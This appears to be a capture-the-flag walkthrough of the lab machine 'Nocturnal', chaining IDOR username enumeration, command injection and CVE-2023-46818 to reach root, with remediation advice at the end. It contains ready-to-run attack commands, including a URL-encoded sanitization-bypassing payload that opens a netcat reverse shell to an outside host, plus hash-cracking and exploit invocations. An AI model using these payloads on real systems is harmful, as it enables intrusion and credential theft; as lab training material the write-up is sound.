

# Nocturnal Web Exploitation & Privilege Escalation Walkthrough

This professional report outlines the full exploitation process for the **Nocturnal** machine, including enumeration, account discovery, exploitation through insecure file handling, privilege escalation, and local service exploitation.

---

## 1. Initial Reconnaissance

We began with a full Nmap scan to discover open services and gather version information for deeper analysis.

```bash
nmap -p- -Pn 10.129.6.254 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.6.254 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.6.254 -v --script vuln -oN nmap_vuln.txt
```


The scan identified an **HTTP web service** running on port 80 — our primary attack surface.

---

## 2. Web Enumeration

We ran directory fuzzing using `ffuf` to identify hidden endpoints and scripts:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://nocturnal.htb/FUZZ -e .php -s
```


The enumeration revealed key PHP files and a login form at `/login.php`.  
We proceeded to create a user account and access the dashboard.


---

## 3. File Upload Vulnerability Discovery

After logging in, we noticed the application allowed **PDF uploads**.  
The files were served based on the **username** parameter, hinting at insecure file access logic.


The parameter manipulation revealed potential for **Insecure Direct Object Reference (IDOR)** exploitation.

---

## 4. Enumerating Usernames via FFUF

We performed a fuzzing attack against the `view.php` endpoint to discover valid usernames:

```bash
ffuf -w /opt/useful/seclists/Usernames/Names/names.txt:FUZZ -u 'http://nocturnal.htb/view.php?username=FUZZ&file=file.pdf' -b "PHPSESSID=2evph3oilal3a2obmkdpd12qsn" -fs 2985
```


Three usernames were discovered, and `amanda` stood out as an administrator.

To confirm access, we fetched Amanda’s PDF file directly:

```bash
curl --cookie "PHPSESSID=2evph3oilal3a2obmkdpd12qsn" 'http://nocturnal.htb/view.php?username=amanda&file=file.pdf'
```


After downloading and reviewing the document, we recovered **Amanda’s password**.


---

## 5. Privilege Abuse via Admin Interface

Logging in as **Amanda**, we gained access to an admin panel.


The panel included a **backup creation feature**, suggesting command execution on the backend.  
We intercepted the request using **Burp Suite** and attempted **command injection**.


We observed execution feedback confirming code execution.

---

## 6. Command Injection Exploitation

Inspecting the `admin.php` script revealed a partial sanitization mechanism that could be bypassed.


We crafted a working payload leveraging **BusyBox netcat** for a reverse shell:

```
password=arHkG7HAI68X8s1J%0Abusybox%09nc%0910.10.15.30%094444%09-e%09%2Fbin%2Fbash</dev/null%09&backup=
```

Upon submission, the reverse shell successfully connected back to our listener.


---

## 7. Local Enumeration & Database Credential Extraction

Inside the compromised host, we found a SQLite database at `/var/www/database/nocturnal.db`:


Extracting its contents revealed stored user credentials.


The passwords were hashed using **MD5**, as confirmed by the source code.


We cracked the hashes using **Hashcat**:

```bash
hashcat -m 0 -a 0 hash rockyou.txt
```


Cracked credentials corresponded to user **tobias**, who had a home directory — our next target.

---

## 8. User Escalation

We switched to Tobias’s account and retrieved the **user flag** from his desktop.


During further enumeration, we discovered a local service running on port **8080**.


To access it, we used SSH port forwarding:

```bash
ssh -L 8888:127.0.0.1:8080 tobias@nocturnal.htb
```

For dynamic tunneling and proxying, we also executed:

```bash
ssh -D 9050 tobias@10.129.232.23
```


This revealed a new **web login interface** on `localhost:8888`.


---

## 9. Internal Web Exploitation — CVE-2023-46818

After several unsuccessful login attempts, we reused Tobias’s credentials and gained access.  
Checking the version banner revealed a **vulnerable internal application** affected by **CVE-2023-46818**.


Reference:  
🔗 [https://github.com/ajdumanhug/CVE-2023-46818](https://github.com/ajdumanhug/CVE-2023-46818)

We used the public exploit to gain remote command execution:

```bash
python3 CVE-2023-46818.py http://localhost:8888 admin slowmotionapocalypse
```


The exploit yielded a **root shell**, and we retrieved the **root flag**.



---

## 10. Conclusion

This assessment demonstrates how weak authentication, insecure file access, and unpatched software lead to a complete system compromise.

### Key Findings:
- Insecure PDF access logic (IDOR vulnerability).  
- Admin command injection vulnerability.  
- Exposed local service vulnerable to CVE-2023-46818.  
- Reused credentials and weak password policy.

### Security Recommendations:
- Enforce strict user input validation and sanitize all query parameters.  
- Implement access control checks for file access endpoints.  
- Regularly patch web applications to mitigate known CVEs.  
- Avoid password reuse and adopt stronger password policies.  
- Limit internal service exposure and implement network segmentation.  
- Conduct regular penetration testing and code reviews.

---
